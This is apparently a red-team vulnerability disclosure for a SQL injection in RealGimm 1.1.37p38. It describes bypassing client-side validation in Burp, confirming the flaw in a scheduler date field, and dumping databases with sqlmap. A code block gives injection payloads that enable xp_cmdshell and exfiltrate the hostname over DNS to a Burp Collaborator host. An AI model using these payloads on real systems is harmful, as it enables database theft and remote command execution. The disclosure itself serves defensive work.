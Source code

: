 # CVE-ID | RealGimm by GruppoSCAI - SQL Injection

A SQL Injection vunerability was found in RealGimm version 1.1.37p38. This vulnerability eventually lead to full database access and remote command execution via xp_cmdshell. What follows is a description of the steps taken to perform the exploit.

## Proof of Concept
First of all, the application performs an input sanitization operation at front-end level. Therefore, in Burp Proxy, disable the Javascript validation applied by application so that we can insert any malicious character inside the forms.

![Disabling JS in Burp](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/2b182fd0-23aa-4667-99f7-1e1b6d044fa4)


After that, we access the function in which the vulnerability is present by clicking on *Sistema ->  Scheduler -> Processi Schedulati* and we insert a single quote inside the "Data Richiesta Dal" field:

![Single quote insertion](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/6ac516a3-4c6c-4e8d-920a-19a340f74807)


After starting the search by pressing the magnifying glass icon, we can see that the application returns an error indicating the presence of an error in the syntax of the SQL query used, thus indicating the presence of a SQL Injection vulnerability:

![SQL Error](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/11641880-a9e7-4254-8d3b-4f7424250651)


Below the intercepted requests and responses:

![Request and response 1](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/6cc599df-00bd-44d8-8b81-bfab0683bd13)

![Request and response 2](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/d80d1be2-33ec-4c4f-8a93-b20ead48fd89)


Using sqlmap we therefore obtain the banner together with all the available databases:

![Banner extraction](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/0a1435f0-b751-4e0f-a9ed-1f39e7c60514)

![Databases extraction](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/3044ff0a-c646-4a54-bc62-0adb405a737b)


Finally, it is possible to achieve code execution on the host where the mssql server is running by enabling and taking advantage of xp_cmdshell. To do this, execute the following instructions one at a time:

```
') EXEC sp_configure 'show advanced options', 1;--

') RECONFIGURE;--

') EXEC sp_configure 'xp_cmdshell', 1;--

') RECONFIGURE;--

')EXEC xp_cmdshell 'for /F "tokens=1" %i in (''hostname'') do nslookup %i.[burp_collaborator_URL].oastify.com';--

```

![Remote code execution](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/13903cb5-c544-405f-a1a7-77735ff24ef1)


As seen above, it is possible run any command on the underlaying host and exfiltrate data via the DNS protocol.
